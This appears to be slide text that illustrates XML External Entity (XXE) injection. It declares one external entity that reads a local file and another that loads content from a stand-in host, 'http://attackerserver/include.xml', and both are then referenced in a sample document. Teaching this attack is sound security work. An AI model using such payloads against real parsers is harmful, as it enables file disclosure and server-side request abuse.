

EXTERNAL ENTITY
<!ENTITY includeme SYSTEM "include.xml">
<!ENTITY includeme2 SYSTEM "http://attackerserver/include.xml">
<sample>
    <head>Header</head>
    <first>&includeme;</first>
    <second>&includeme2;</second>
</sample>